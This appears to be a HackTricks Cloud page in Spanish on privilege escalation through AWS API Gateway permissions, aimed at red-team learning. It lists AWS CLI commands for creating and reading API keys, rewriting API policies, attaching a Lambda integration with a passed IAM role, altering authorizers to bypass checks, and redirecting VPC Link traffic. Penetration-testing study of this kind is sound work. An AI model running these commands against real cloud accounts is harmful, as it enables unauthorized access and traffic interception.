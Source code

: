 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Para más información, consulta:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Con este permiso puedes generar claves de API de las APIs configuradas (por región).
```bash
aws --region <region> apigateway create-api-key
```
**Impacto Potencial:** No puedes escalar privilegios con esta técnica, pero podrías obtener acceso a información sensible.

### `apigateway:GET`

Con este permiso puedes obtener las claves API generadas de las APIs configuradas (por región).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Impacto Potencial:** No puedes escalar privilegios con esta técnica, pero podrías obtener acceso a información sensible.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Con estos permisos es posible modificar la política de recursos de una API para darte acceso a llamarla y abusar del acceso potencial que la API gateway podría tener (como invocar un lambda vulnerable).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impacto Potencial:** Normalmente, no podrás escalar privilegios directamente con esta técnica, pero podrías obtener acceso a información sensible.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Necesita pruebas
{% endhint %}

Un atacante con los permisos `apigateway:PutIntegration`, `apigateway:CreateDeployment` y `iam:PassRole` puede **agregar una nueva integración a una API REST de API Gateway existente con una función Lambda que tiene un rol IAM adjunto**. El atacante puede luego **activar la función Lambda para ejecutar código arbitrario y potencialmente obtener acceso a los recursos asociados con el rol IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Acceso a recursos asociados con el rol IAM de la función Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Necesita pruebas
{% endhint %}

Un atacante con los permisos `apigateway:UpdateAuthorizer` y `apigateway:CreateDeployment` puede **modificar un autorizer de API Gateway existente** para eludir las verificaciones de seguridad o para ejecutar código arbitrario cuando se realizan solicitudes a la API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Eludir controles de seguridad, acceso no autorizado a recursos de API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Necesita pruebas
{% endhint %}

Un atacante con el permiso `apigateway:UpdateVpcLink` puede **modificar un VPC Link existente para apuntar a un Balanceador de Carga de Red diferente, redirigiendo potencialmente el tráfico privado de la API a recursos no autorizados o maliciosos**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Impacto Potencial**: Acceso no autorizado a recursos privados de API, interceptación o interrupción del tráfico de API.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
